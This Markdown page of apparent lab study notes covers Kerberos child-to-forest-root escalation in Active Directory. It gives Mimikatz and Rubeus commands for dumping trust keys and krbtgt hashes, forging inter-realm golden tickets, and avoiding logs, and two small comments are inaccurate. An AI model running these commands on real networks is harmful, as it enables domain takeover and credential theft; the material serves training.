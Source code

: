 ```yaml
---
title: "Cross-Domain Attacks"
description: "Cross-domain attacks."
lead: "Child-to-parent domain attacks using krbtgt hash and trust key."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "trust_attacks"
weight: 10
toc: true
---
```


## General

- Domains in the same forest have an implicit two-way trust relationship
- There is a trust key between the parent and child domains
- There are two ways of escalating privileges between two domains of the same forest
  - Krbtgt hash
  - Trust tickets

### Authentication Process for Resource in Different Domain

1. Client requests TGT from DC in own domain
2. DC sends back TGT
3. Client shows TGT when requesting TGS for resource in another domain
4. DC checks global catalog and finds resource in another domain
5. DC sends back inter-realm TGT encrypted with Trust Key
6. Client sends inter-realm TGT when requesting TGS for resource to DC of target domain
7. DC checks if trust key is valid
8. If yes, sends back TGS
9. Client presents TGS when accessing target resource
10. Target resource checks if client can access resource

## Exploitation

### Child to Forest Root using Trust Key

- Vulnerable step here is step 6, sending the TGT encrypted with trust key
- If we have the trust key, we can forge a ticket
- Escalate privileges from Domain Admin in current domain to Enterprise Admin or DA in forest root

#### Arguments

| Argument | Description |
| --- | --- |
| kerberos::golden | Module name |
| /domain:domain:dollarcorp.moneycorp.local | FQDN of current domain |
| /sid:S-1-5-21-1874506631-3219952063-538504511 | SID of the currentdomain |
| /User:Administrator | User to impersonate |
| /target:moneycorp.local | FQDN of the target/parent domain |
| /sids:S-1-5-21-280534878-1496970234-700767426-519 | SID of the Enterprise Admins group of the parent/target domain |
| /rc4:200a7dab8e762344bd76a62acac42568 | RC4 hash of the trust key |
| /ticket:trust_tgt.kirbi | Save ticket to file for later use |
| /startoffset:0 | Optional when the ticket is available (default 0 right now) in minutes. Use negative for a ticket available from past and a larger number for future. |
| /endin:600 | Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes |
| /renewmax:10080 | Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |
| /ptt | Inject ticket in current PowerShell process |

#### Commands

```powershell
# Dump trust key from DC with mimikatz
# Look for [In] trust key from child to parent
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'

# Get SID of Enterprise Admins Group using PowerView 3.0
Get-DomainGroup -Domain moneycorp.local "Enterprise Admins" | Select objectsid

# Forge inter-realm TGT
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /user:Administrator /target:moneycorp.local /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:200a7dab8e762344bd76a62acac42568 /service:krbtgt /ticket:trust_key_tgt.kirbi"'

# Use inter-realm ticket to get and use TGS for CIFS service on DC of the parent domain
.\Rubeus.exe asktgs /ticket:trust_key_tgt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt

# Check access
ls \\mcorp-dc.moneycorp.local\c$
```

### Child to Forest Root using krbtgt Hash

- Same principle as using trust key
- But: no need to explicitly request TGS for specific service
- Works like golden ticket

```powershell
# Dump krbtgt hash with DA privileges
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

# Forge inter-realm TGT
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /user:Administrator /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:trust_krbtgt_tgt.kirbi"'

# Avoid suspicious logs by using SID of Domain Controllers and Enterprise Domain Controllers
# S-1-5-21 = Domain Controllers
# S-1-5-9  = Enterprise Domain Controllers
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /user:dcorp-dc$ /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:trust_krbtgt_tgt.kirbi"'

# Inject ticket into session
Invoke-Mimikatz -Command '"kerberos::ptt trust_krbtgt_tgt.kirbi"'
```
